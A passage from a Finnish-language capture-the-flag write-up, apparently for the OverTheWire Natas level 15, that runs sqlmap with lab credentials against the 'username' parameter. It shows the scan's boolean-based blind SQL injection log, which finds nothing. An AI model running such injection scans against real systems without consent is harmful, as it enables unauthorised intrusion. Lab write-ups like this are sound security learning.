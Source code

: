 ```
[*] ending @ 10:15:21 /2025-05-18/
```

Tämä toisti lisäparametrejä jos halutaisi syvempää testausta, ainakin koskien rajoittaa testin `--technique=B` **Boolean-based blind SQLi:hin** ja `--batch` hyväksyy oletusvastauksia automaattisesti. Tuossa toistui paljon riviä, että skippasin osan. Sekä SQLMap teki perusteellisen sarjan testejä tarkistaakseen, onko `username`-parametri haavoittuvainen blind SQL injectionille eri tietokantaympäristöissä, mutta ei löytänyt haavoittuvuutta, koska se ei saanut tunnistettua onnistuneen injektion vastaussisältöä ilman lisäohjausta käyttäjältä.

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?username=test" \
--auth-type Basic \
--auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--level 5 --risk 3 --batch --technique=B
        ___
       __H__                                                                                                                   
 ___ ___[(]_____ ___ ___  {1.8.5#stable}                                                                                       
|_ -| . ["]     | .'| . |                                                                                                      
|___|_  [.]_|_|_|__,|  _|                                                                                                      
      |_|V...       |_|   https://sqlmap.org                                                                                   

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:40:44 /2025-05-18/
....


[10:40:46] [WARNING] heuristic (basic) test shows that GET parameter 'username' might not be injectable
[10:40:46] [INFO] testing for SQL injection on GET parameter 'username'
[10:40:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:40:51] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[10:40:55] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
[10:41:01] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[10:41:04] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (subquery - comment)'
[10:41:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (comment)'
[10:41:07] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (comment)'
[10:41:08] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - comment)'
[10:41:09] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[10:41:16] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[10:41:18] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[10:41:20] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (Microsoft Access comment)'
[10:41:24] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (Microsoft Access comment)'
[10:41:26] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[10:41:30] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[10:41:43] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (MAKE_SET)'
[10:41:59] [INFO] testing 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
[10:42:05] [INFO] testing 'MySQL OR boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)'
```
